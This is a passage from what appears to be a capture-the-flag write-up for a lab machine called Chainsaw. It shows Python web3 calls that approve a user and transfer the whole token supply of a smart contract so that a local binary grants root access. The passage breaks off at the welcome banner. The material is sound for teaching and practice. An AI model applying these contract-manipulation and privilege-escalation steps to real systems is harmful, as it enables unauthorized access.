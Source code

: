 And I’m approved:

```

>>> contract.functions.getApprove().call()
True

```

Now I can log in, but a new error:

```

bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 

      _           _
     | |         (_)
  ___| |__   __ _ _ _ __  ___  __ ___      __
 / __| '_ \ / _` | | '_ \/ __|/ _` \ \ /\ / /
| (__| | | | (_| | | | | \__ \ (_| |\ V  V /
 \___|_| |_|\__,_|_|_| |_|___/\__,_| \_/\_/
                                            club
- Total supply: 1000
- 1 CHC = 51.08 EUR
- Market cap: 51080 (€)

[*] Please sign up first and then log in!
[*] Entry based on merit.

Username: 0xdf
Password: 
[*] Not enough funds!

```

Since I see that the total supply is 1000, I’ll transfer all of it:

```

>>> contract.functions.transfer(1000).transact()
HexBytes('0x24f7591dc75e60a1f82381497457a0e91946aee7d440f5f7339ba3da39b4fd5e')

```

Now when I log in, I get a root shell:

```

bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 

      _           _
     | |         (_)
  ___| |__   __ _ _ _ __  ___  __ ___      __
 / __| '_ \ / _` | | '_ \/ __|/ _` \ \ /\ / /
| (__| | | | (_| | | | | \__ \ (_| |\ V  V /
 \___|_| |_|\__,_|_|_| |_|___/\__,_| \_/\_/
                                            club
- Total supply: 1000
- 1 CHC = 51.08 EUR
- Market cap: 51080 (€)

[*] Please sign up first and then log in!
[*] Entry based on merit.

Username: 0xdf
Password: 
         ************************
         * Welcome to the club! *
```